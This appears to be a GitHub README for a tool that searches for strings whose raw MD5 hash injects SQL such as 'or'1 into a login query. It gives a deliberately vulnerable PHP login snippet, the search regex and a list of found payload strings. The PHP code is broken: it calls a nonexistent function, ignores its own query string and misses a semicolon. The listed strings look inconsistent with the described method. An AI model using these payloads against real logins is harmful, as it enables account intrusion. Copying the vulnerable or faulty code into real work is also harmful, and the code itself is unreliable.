 # SQLi with Raw MD5 Hashes
The python programs find SQL strings that can be injected into the password field of a webpage, the value of which would be hashed with MD5 before being used in a query. A sample code snippet to hash the user-submitted password is as follows:

```
<?php
    if (isset($_POST['username']) and isset($_POST['password'])) {
        $password = md5($_POST['password'], true);
        $sql_s = "SELECT * FROM users WHERE username='$username' and password='$password'";
        $r = mysql_query("SELECT * FROM users");
        if (mysql_num_query($r) > 0) {
            echo "Successful!";
        }
        else {
            echo "Permission denied"
        }
    }
?>
```
Since `md5()` uses raw hash instead of hexdecimal form, we brute-force to generate raw hashes of random strings and search for matching subsequence. To shorten search time, I use a python reg-ex, `r"('\|\|'\d|'OR'\d|'or'\d)"`. This means any of the `'||'`, `'OR'` or `'or'` sequence followed by a digit is a candidate. For performance concerns, I also implemented a multi-core version of the program, to maximize CPU power. Below are some of the strings I found:
```
6dd4d495bd4e8bc06424d6fd15d4964d8726a44224240e96360fe9a7c10bf659de5f1100608cb31940d66872719bbb46db0780a059921d9152e6d06a3057f4d5
c4a6bfccdeaad008d9c79d0b75cd6104f0f75fa207dba7a62ae3aff415290754cfd72661866960b3b21825742a037d799b285a3ae1b9cf93d629e187d6fb095b
efc974b28da4e129686c71c018b626dc84659a90bfa8d34927a1882efb0f8bf5711aceb67472aa9e7503f6ec1d9d67b57a852859a5d22d77b2939858dee10bc9
febea3796e8e533c7e309951d87d92225b140e26cde7106b504c992b05d79894e20fca1fa900c59a9ee3c6073c2500cd5d1a99ab0004c645b7ac175b95f4c460
65a3268f43852bfdb5adbd3209363af5a0a69386de4d1e015ffd8812b901f9e27cb706e97b032bf0974de459797774a1dec6da3871222fb68edee3e74c6700f5
f1d728e2a6455f1dd6038256a5e0c965ff35ff4fc1741a0a4c9f4e18c7e371a634ab0e85824e96e9c13c4f792c3026715ecc7879c1c1fe608de1a24690a5b7b1
b49c7f9cef6e17145184de4bfb3fd32dca386d925f8ab1db9517755892c026df85f3f9a41fcd900f229f4fc6b9cf32e99c1305f7cf6f1e3a3fbb81b0ba1e6010
```
